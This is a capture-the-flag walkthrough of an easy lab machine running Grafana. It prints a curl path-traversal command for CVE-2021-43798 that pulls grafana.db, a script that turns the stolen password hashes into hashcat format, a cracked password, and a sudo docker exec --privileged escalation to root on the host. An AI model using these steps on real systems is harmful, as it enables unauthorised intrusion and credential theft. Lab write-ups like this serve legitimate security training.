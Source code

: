 # Data (easy)

## port scan

![](data\(easy\)/walkthrough\_20240409125154725.png)

## service enumeration

on port 3000. we have Grafana

![](data\(easy\)/walkthrough\_20240409125116741.png)

## exploit grafana

CVE-2021-43798 give us access to read local file

we can use `searchsploit -m 50581`

![](data\(easy\)/walkthrough\_20240409125319993.png)

we can change this exploit write out to file

![](data\(easy\)/walkthrough\_20240409125822967.png)

![](data\(easy\)/walkthrough\_20240409130007225.png)

or just use curl command

```bash
curl --path-as-is http://10.10.68.81:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![](data\(easy\)/walkthrough\_20240409131056541.png)

![](data\(easy\)/walkthrough\_20240409131205244.png)

## crack grafana user password

```python
import base64

users = [
    "admin@localhost|7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S",
    "boris@data.vl|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl"
]

def main():
    for user in users:
        userProperties = user.split("|");
        email = userProperties[0];
        hexHash = userProperties[1];
        salt = userProperties[2];

        decodedHash = bytes.fromhex(hexHash)
        hashB64 = base64.b64encode(decodedHash).decode('utf-8')
        saltB64 = base64.b64encode(bytes(salt, 'utf-8')).decode('utf-8')
        print(f"sha256:10000:{saltB64}:{hashB64}")



if __name__ == "__main__":
    main()
```

```bash
python3 ./decode.py > hash
sudo hashcat ./hash /usr/share/wordlists/rockyou.txt
```

the cred is `beautiful1`

![](data\(easy\)/walkthrough\_20240409132039226.png)

## ssh

we can use cracked password ssh into target

![](data\(easy\)/walkthrough\_20240409132148203.png)

## Privilege Escalation

we can use `/snap/bin/docker exec *` with root privilege

![](data\(easy\)/walkthrough\_20240409132333541.png)

```bash
sudo docker exec --privileged -i -u root -t grafana /bin/bash
```

and there have a disk `/dev/xvda1`. we can mount it to access host file system

![](data\(easy\)/walkthrough\_20240409135956780.png)
